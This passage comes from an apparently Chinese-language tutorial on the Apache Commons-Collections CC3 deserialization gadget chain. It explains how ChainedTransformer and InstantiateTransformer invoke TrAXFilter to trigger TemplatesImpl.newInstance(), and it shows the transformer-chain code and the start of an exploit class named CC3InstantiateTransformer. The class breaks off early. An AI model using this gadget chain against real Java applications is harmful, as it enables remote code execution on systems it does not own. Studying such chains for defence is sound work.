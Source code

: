 通过 chainedTransformer 类中的 transform 方法，先传入 TrAXFilter.class，然后在通过 InstantiateTransformer（存在序列化接口）的 transform 方法，对上面类和类的构造方法进行调用并将`TemplatesImpl Templates = new TemplatesImpl();`传入，触发 TrAXFliter 构造方法中的 Templates.newInstance() 方法。

```plain
Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class},new Object[]{Templates})

        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers);
//        chainedTransformer.transform(1);
```

[![](assets/1701612311-ce96ba3f8030d601f058a2f86ea3750f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235523-8305db28-20cc-1.png)

```plain
package EXP;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;


import javax.xml.transform.Templates;
import java.io.*;


import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;

public class CC3InstantiateTransformer {
    public static void main(String[] args) throws Exception{

        TemplatesImpl Templates = new TemplatesImpl();
```